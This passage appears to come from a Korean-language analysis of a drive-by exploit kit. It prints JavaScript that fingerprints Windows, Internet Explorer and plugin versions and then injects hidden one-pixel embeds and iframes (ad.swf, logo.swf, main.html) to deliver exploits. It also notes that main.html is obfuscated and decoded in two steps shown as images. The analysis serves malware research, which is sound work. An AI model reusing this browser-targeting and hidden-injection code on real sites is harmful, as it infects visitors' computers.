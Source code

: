 ```javascript
ckckx.width = "30";
ckckx.height = "1";
document.body.appendChild(ckckx);
var ckcks = document.createElement('param');
ckcks.name = "dota";
ckcks.value = ckurl;
ckckx.appendChild(ckcks);
} else {
if ((kaka.indexOf("nt 6.1") > -1 || kaka.indexOf("nt 6.2") > -1) && (kaka.indexOf("msie 9") > -1 || kaka.indexOf("msie 10") > -1 || kaka.indexOf("msie 11") > -1 || kaka.indexOf("msie 12") > -1)) {
if (vers > 1600200 && vers <= 1600296) {
                document.write("<embed width=60 height=1 src=ad.swf allowScriptAccess=always Play=true></embed>");
flash_run("logo.swf", "exec=FmF"+ flashurl);
}
} else if ((kaka.indexOf("nt 6.1") > -1 || kaka.indexOf("nt 6.2") > -1) && kaka.indexOf("msie 8") > -1 && CheckVersion16()) {
            document.write("<embed width=60 height=1 src=ad.swf allowScriptAccess=always Play=true></embed>");
} else if (CheckVersion11() || CheckVersion12() || CheckVersion13() || CheckVersion14() || CheckVersion15()) {
flash_run("logo.swf", "exec=FmF"+ flashurl);
} else if ((kaka.indexOf("msie 6") > -1 || kaka.indexOf("msie 7") > -1) && apple.major == 10 && apple.minor == 3 && apple.rev <= 183) {
            document.write("<iframe src=ww.html width=60 height=1></iframe>");
}
}
```

● 인터넷 익스플로러(msie)를 사용할 경우 main.html을 불러오는 것을 확인

```javascript
if (kaka.indexOf("msie") > -1) {
        document.write("<iframe src=main.html width=60 height=1></iframe>");
}
```

● main.html에 난독화된 코드가 존재하는 것을 확인

![image](https://github.com/user-attachments/assets/36c64e9e-8f28-4992-8354-3cfa78267067)

[그림 15. main.html 난독화된 코드]

● 첫 번째 복호화 진행

![image](https://github.com/user-attachments/assets/aa553383-f6fc-48d0-be33-eb5ca121a44b)

[그림 16. main.html 복호화 1.]

● 두 번째 복호화 진행

![image](https://github.com/user-attachments/assets/3393eed5-42d3-48e5-8dbc-b51a3b922aa0)

[그림 17. main.html 복호화 2.]
